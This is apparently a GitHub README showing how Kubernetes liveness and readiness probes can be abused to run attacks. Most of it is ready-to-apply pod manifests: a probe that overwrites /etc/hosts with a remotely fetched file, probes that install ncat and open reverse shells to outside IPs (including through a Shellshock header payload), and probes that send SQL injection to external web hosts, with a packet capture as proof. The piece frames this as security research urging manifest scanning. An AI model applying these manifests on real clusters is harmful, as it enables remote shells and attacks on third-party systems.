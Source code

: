 ## Exploiting applications using livenessProbes in Kubernetes
### Introduction
Startup, readiness, and liveness probes are very well described in the Kubernetes documentation. <br>
Kubelet uses these probes defined in the pod manifest to verify whether a pod is booting, ready to accept traffic and still alive.<br>
<br>
It is `kubelet` who actually executes the probes (and not the pod itself). <br>

There are different ways the probes are executed. <br>
- httpGet <br>
- exec <br>

The problems described here are considered 'as designed', as you should download containers from a trusted source according to the reviewers. <br>
The examples below shows that trusted sources of container images will not solve the problem, neither will image scanning. <br><br>
To prevent an attack from happening, it is mandatory to scan the Kubernetes pod and deployment manifests rigorously before deploying. <br>

### Examples1: Overwriting files on the pod filesystem - spoofing websites
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec15
spec:
  containers:
  - name: liveness
    image: xxradar/hackon
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      exec:
        command:
        - curl
        - www.xxxxx.com/host.txt
        - -o 
        - /etc/hosts
      initialDelaySeconds: 5
      periodSeconds: 5
EOF
```
Even better -- command chaining :-)
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec15
spec:
  containers:
  - name: liveness
    image: xxradar/hackon
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      exec:
        command:
        - bash
        - -c
        - apt-get install ncat ; ncat -e /bin/bash 192.168.0.131 8889 &
      initialDelaySeconds: 5
      periodSeconds: 5
EOF
```

### Examples2: Installing applications the pod at deployment 
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec39
spec:
  containers:
  - name: liveness
    image: ubuntu
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    readinessProbe:
      exec:
        command:
        - apt-get 
        - update
      initialDelaySeconds: 5
      periodSeconds: 10
      timeoutSeconds: 60
    livenessProbe:
      exec:
        command:
        - apt-get 
        - install
        - -y
        - curl
      initialDelaySeconds: 60
      periodSeconds: 100
      timeoutSeconds: 60
EOF
```
### Examples3: Attacking http(s) endpoints using sql injection, XXS, ... 

```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness3
spec:
  containers:
  - name: liveness
    image: ubuntu
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      httpGet:
        host: www.xxxx.com
        path: /?'OR 1=1--
        port: 8080
        httpHeaders:
          - name: User-Agent
            value: xxxxxxxxx
EOF
```
```
22:03:04.693794 IP 192.168.0.131.50723 > 198.199.124.250.http-alt: Flags [P.], seq 1:116, ack 1, win 2053, options [nop,nop,TS val 2487114541 ecr 6590553], length 115: HTTP: GET /?'OR 1=1-- HTTP/1.1
  0x0000:  ac22 058e 607c 3c22 fb51 bf41 0800 4500  ."..`|<".Q.A..E.
  0x0010:  00a7 0000 4000 4006 3564 c0a8 0083 c6c7  ....@.@.5d......
  0x0020:  7cfa c623 1f90 8580 94d6 96d2 2b3d 8018  |..#........+=..
  0x0030:  0805 c39c 0000 0101 080a 943e 5b2d 0064  ...........>[-.d
  0x0040:  9059 4745 5420 2f3f 274f 5220 313d 312d  .YGET./?'OR.1=1-
  0x0050:  2d20 4854 5450 2f31 2e31 0d0a 486f 7374  -.HTTP/1.1..Host
  0x0060:  3a20 7777 772e 7261 6461 7268 6163 6b2e  :.www.radarhack.
  0x0070:  636f 6d3a 3830 3830 0d0a 5573 6572 2d41  com:8080..User-A
  0x0080:  6765 6e74 3a20 4d79 5573 6572 4167 656e  gent:.MyUserAgen
  0x0090:  740d 0a41 6363 6570 743a 202a 2f2a 0d0a  t..Accept:.*/*..
  0x00a0:  436f 6e6e 6563 7469 6f6e 3a20 636c 6f73  Connection:.clos
```
### Examples4 : Attacking http(s) endpoints using shellshock
```
apiVersion: v1
kind: Pod
metadata:
   name: radarhack-pod3
   labels:
      pod: radarhack
spec:
  containers:
  - name: radarhack
    image: docker.io/xxradar/naxsi5
    ports:
    - containerPort: 80
    livenessProbe:
      httpGet:
        host: www.radarhack.com
        path: /index.html?test=' or 1=1--
        port: 8080
        httpHeaders:
        - name: Custom-Header
          value: Awesome
        - name: X-Frame-Options
          value: () { :;};echo;/bin/nc -e /bin/bash 192.168.81.128 443
      initialDelaySeconds: 3
      periodSeconds: 3
 ```

### Conclusion
Many things are written on securely deploying applications on kubernetes. Keep in mind that all aspects need full attention. Generating and building Kubernetes manifest is also developping code.
